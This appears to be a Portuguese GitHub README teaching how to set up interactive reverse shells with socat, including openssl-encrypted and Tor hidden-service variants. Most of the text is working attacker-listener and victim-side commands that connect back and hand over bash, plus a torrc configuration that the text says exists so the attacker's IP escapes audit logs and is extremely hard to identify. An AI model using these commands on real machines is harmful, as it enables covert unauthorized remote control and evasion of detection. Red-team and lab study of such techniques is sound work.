 <p align="center">

<h1 align="center"> Shell reverso interativo e criptografado 
<h1 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Debian.io" />

<img src="https://img.shields.io/badge/Tor-7D4698?style=for-the-badge&logo=Tor-Browser&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer que o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverso

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta e assim permite que o atacante abra uma porta de escuta em seu servidor para receber conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Podemos criar [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) de várias formas, nesse post utilizarei o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

## Shell reverso criptografado

Basta usar o openssl para criar as chaves.

Servidor:
```shell
# Atacante
PORT="1111"
openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"
socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```
Cliente:
```shell
# Vítima
HOST=localhost
PORT=1111
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid  
 ```
  
## Shell reverso utilizando a rede tor

Em sistemas robustos são guardados vários logs, inclusive de conexões. Assim o endereço de ip da atacante seria facimente descoberto em uma auditoria. Mas utilizando a rede tor o atacante consegue tornar seu endereço de ip desconhecido, ele deve ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa do proxy tor para redirecionar o servidor socat para rede tor. Para isso, o atacante precisa adicionar as seguintes linhas ao arquivo ao final do arquivo <strong>/etc/tor/torrc</strong>:

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```
Desta forma, todas as requisições que vierem da rede tor pela porta 1111 serão redirecionadas para localhost:1111.

Agora reinicie o tor:

```
systemctl restart tor
```

Para descobrir qual é o domínio do atacante na rede tor, digite:

```bash
cat /var/lib/tor/service/hidden/hostname
```
A saída do comando retornará algo do tipo, exemplo:
```url  
asdejiyamcrsslvykfwnntlaru7p5svn6y2ymmju6nubxndf4zsdefgbnn.onion
```

O atacante deve executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=domínio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor usando o openssl como foi mostrado acima. Mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Podemos dizer que é extremamente difícil identificar o atacante.
## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do Hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).
